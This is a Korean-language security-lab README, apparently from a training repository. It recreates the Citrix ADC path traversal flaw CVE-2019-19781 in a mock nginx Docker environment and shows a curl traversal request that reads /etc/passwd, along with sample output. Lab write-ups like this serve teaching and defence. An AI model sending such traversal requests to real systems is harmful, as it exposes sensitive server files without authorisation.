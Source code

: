 # CVE-2019-19781 - Citrix ADC Path Traversal Vulnerability

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : 


## 개요
- **CVE 번호** : CVE-2019-19781
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
![Docker 빌드 및 실행](1.png)  

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
![브라우저 접속 확인](2.png)  
정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
![curl시도 및 결과](3.png)   
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리


## 참고 자료 






